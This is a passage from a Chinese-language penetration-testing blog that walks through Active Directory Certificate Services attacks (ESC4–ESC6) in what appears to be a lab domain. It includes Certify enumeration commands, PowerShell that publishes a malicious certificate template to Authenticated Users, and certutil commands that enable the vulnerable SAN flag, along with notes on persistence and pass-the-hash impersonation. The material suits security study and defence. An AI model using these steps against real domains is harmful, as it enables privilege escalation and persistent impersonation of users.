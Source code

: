 这里列举几个常用属性

- msPKI-Certificates-Name-Flag -edit-> ENROLLEE_SUPPLIES_SUBJECT (WriteProperty)
- msPKI-Certificate-Application-Policy -add-> 服务器身份验证 (WriteProperty)  <-即扩展策略的OID
- mspki-enrollment-flag -edit-> AUTO_ENROLLMENT (WriteProperty) ->模板的自动注册
- 直接修改模板的所有者

我们可以通过Certify的find命令枚举所有模板的访问控制条目

![image-20240104210937632](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240104210937632.png)

可以看的出来，模板默认是不会给普通用户写权限的，都是管理员组，这也是为什么我不认为这个方法属于提权，事实上访问控制权限通常都用于维权。

+ 至此提权到维权的思路基本上能够串起来了，即使用户的密码被修改，仍能通过PAC的机制获取用户的ntlm hash,遗憾的是我们不能直接使用hash来申请证书，不过通过pth，我们仍然能伪造该用户。

### PKI缺陷(ESC5)

如果低特权的攻击者可以对 `CN=Public Key Services,CN=Services,CN=Configuration,DC=,DC=` 控制，那么攻击者就会直接控制 PKI 系统 (证书模板容器、证书颁发机构容器、NTAuthCertificates对象、注册服务容器等)。

```
Certify.exe pkiobjects
```

![image-20240105164400145](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240105164400145.png)

hacker用户对该条目拥有完全控制权，通常来拥有创建子对象和写入权限应该就可以了。

有用这些权限，我们就可以创建一个恶意模板来进行提权或者维权了。

```powershell
Import-Module .\ADCSTemplate.psm1
Export-ADCSTemplate -DisplayName TESTMP > ./TESTTMP.json
New-ADCSTemplate -DisplayName TMP_BACK -JSON (Get-Content .\TESTTMP.json -Raw) -Publish -Identity "NT AUTHORITY\Authenticated Users"
```

![image-20240105170924555](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20240105170924555.png)

### ESC6

CA 的 `EDITF_ATTRIBUTESUBJECTALTNAME2` 标志,当启用这个标志时，攻击者可以为任何域用户注册证书，这与ESC1比较相似，但ESC1是利用证书模板属性的SAN自定义，这里将SAN包含在名称值对当中。

这也属于错误配置的一种，要在域上启用这个标志，可以执行

```shell
certutil -config "ECHANGE2013.loser.com\loser-DC-CA" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2

//检查是否启用该标志，这仅通过远程注册表
reg.exe query \\<CA_SERVER>\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags 

certutil -config "ECHANGE2013.loser.com\loser-DC-CA" -getreg "policy\EditFlags" 
```
